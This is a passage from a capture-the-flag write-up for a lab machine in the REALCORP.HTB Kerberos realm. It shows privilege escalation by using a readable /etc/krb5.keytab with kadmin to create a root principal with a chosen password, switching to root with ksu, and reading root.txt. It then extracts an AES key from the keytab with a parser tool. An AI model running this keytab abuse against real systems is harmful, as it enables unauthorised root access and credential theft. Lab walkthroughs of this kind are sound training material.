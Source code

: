Now `ksu` will run `su` using Kerberos, so I’ll enter the password I just created for root:

```

[admin@srv01 etc]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 etc]#

```

And grab `root.txt`:

```

[root@srv01 ~]# cat root.txt
5eac1728************************

```

The call to `kadmin` to then add a principal can be done in one line as well:

```

[admin@srv01 etc]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB -q "add_principal -pw 0xdf root"
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
No policy specified for root@REALCORP.HTB; defaulting to no policy
Principal "root@REALCORP.HTB" created.

```

## Beyond Root - KeyTab File Format

### Parsers

I looked for ways to dump hashes or passwords from the keytab file, but didn’t make much progress. I found [this tool](https://github.com/its-a-feature/KeytabParser), but it’s in legacy Python, and only gives one key:

```

oxdf@parrot$ python2 KeytabParser.py krb5.keytab 
17729
{
    "host/srv01.realcorp.htb@REALCORP.HTB": {
        "keys": [
            {
                "EncType": "aes256-cts-hmac-sha1-96", 
                "Key": "lZEBVb0fGSXKirqW4PvbDzeheaTAImsSuYIL4V4SLgE=", 
                "KeyLength": 32, 
                "Time": "2020-12-08 17:15:30"
            }
        ]
    }
}

```
